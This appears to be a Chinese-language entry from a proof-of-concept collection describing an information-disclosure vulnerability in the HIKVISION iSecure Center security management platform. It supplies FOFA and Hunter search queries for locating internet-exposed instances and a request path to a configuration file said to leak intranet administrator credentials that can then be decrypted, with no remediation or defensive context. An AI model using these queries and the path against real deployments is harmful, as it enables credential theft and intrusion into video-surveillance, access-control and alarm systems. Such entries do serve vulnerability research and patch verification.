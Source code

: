 # 海康威视综合安防管理平台信息泄露


## 海康威视综合安防管理平台信息泄露

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，海康威视综合安防管理平台信息存在信息泄露（内网集权账户密码）漏洞，可以通过解密软件，解密用户名密码。

## fofa
```
app="HIKVISION-综合安防管理平台"
```

## hunter
```
web.title="综合安防管理平台"
```

## poc
```
/portal/conf/config.properties

```
## 漏洞复现
![](/assets/20231021220812.png)

